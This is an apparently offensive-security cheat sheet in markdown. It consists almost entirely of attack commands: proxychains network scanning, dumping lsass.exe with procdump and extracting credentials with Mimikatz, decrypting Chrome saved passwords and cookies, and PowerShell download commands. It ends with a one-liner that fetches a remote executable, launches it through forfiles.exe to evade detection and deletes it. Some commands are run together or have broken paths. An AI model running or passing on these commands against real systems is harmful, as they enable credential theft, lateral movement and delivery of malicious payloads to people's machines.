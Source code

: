 
<p align="center">
  <body>
    <img src="2zHQ.gif" width="500" height="300">
  </body>
</p>

````
aHR0cHM6Ly9zZWMubm1hc2suY24vYXJ0aWNsZV9jb250ZW50P2FfaWQ9YWQ1ZWI3NzQ1NDMxYzk4YzRiN2QxZWYyNzc0ZjI2NGI=

````
Анализируйте запросы ARP для определения взаимодействующих хостов и устаревших конфигураций сетевых адресов (SNAC)
https://github.com/arch4ngel/eavesarp


## make proxy in target PC

https://www.youtube.com/watch?v=ghZ8XK9zEfI<br>
proxy UP &
````
vim /etc/proxychains4.conf
proxychains4 nmap -A -F -sT -Pn 10.10.10.1/24 > nmap_res.txt
````


````
procdump.exe -accepteula -ma lsass.exe lsass.dmp
sekurlsa::minidump lsass.dmpsekurlsa::dpapi

````
## Mimikatz Chrome-dump

````
mimikatz dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotectbeacon> mimikatz dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies" /unprotect
````
### Chrome cookies

````
 dpapi::chrome /in:"%localappdata%GoogleChromeUser DataDefaultCookies" /unprotect
````



## Download with Powershell

https://blog.jourdant.me/post/3-ways-to-download-files-with-powershell

https://adamtheautomator.com/powershell-download-file/


````
Invoke-WebRequest -Uri $url -OutFile $output
````

````
Import-Module BitsTransfer
Start-BitsTransfer -Source $url -Destination $output
````

bYpASS

https://github.com/tokyoneon/Chimera



````
powershell.exe iwr [URL] -o C:\Users\Public\[NAME].exe; forfiles.exe /p c:\windows\system32 /m svchost.exe /c C:\Users\Public\[NAME]; timeout 2; del C:\Users\Public\[NAME].exe
````
